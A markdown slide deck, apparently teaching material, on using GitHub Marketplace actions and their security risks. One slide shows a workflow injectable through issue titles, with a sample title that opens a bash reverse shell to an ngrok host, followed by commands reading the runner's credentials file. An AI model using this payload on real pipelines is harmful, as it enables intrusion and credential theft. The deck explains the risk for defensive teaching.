 <!-- .slide: class="with-code" -->
# What is the marketplace

* List of free and paid tools
* GitHub Actions and Apps
* Anyone can share their apps
* Anyone can publish an action in GitHub Marketplace

Notes:
ex paid : https://github.com/marketplace/wip
* only apps owned by organizations can sell their app

##==##
<!-- .slide: -->

# How to use

* https://github.com/marketplace?type=actions

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: Demo direct sur la marketplace

##==##
<!-- .slide: class="with-code" -->

# Use an GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference a branch
  - uses: actions/checkout@main
```

<br> 
<br> 

## Using actions with parameters
```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

##==##
<!-- .slide: class="with-code" -->

# Example

* step of our Github Actions

```yaml
      - run: |
         echo "ISSUE TITLE: ${{github.event.issue.title}}"
         echo "ISSUE DESCRIPTION: ${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action
```yaml
New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "
```

Notes:

ngrok to make a backdoor

##==##
<!-- .slide: class="with-code" -->

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

##==##
<!-- .slide: -->
# Usefuls actions

* [`actions/checkout`](https://github.com/marketplace/actions/checkout)

  * allow to checkout a repository 
  * github_token, ref, depth, path, ... customization

* [`actions/setup`](https://github.com/marketplace?type=actions&query=setup+)

  * allow to install a tool
  * provided by github and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* [`actions/dependency-review-action`](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raise an error if vulnerabilities found.
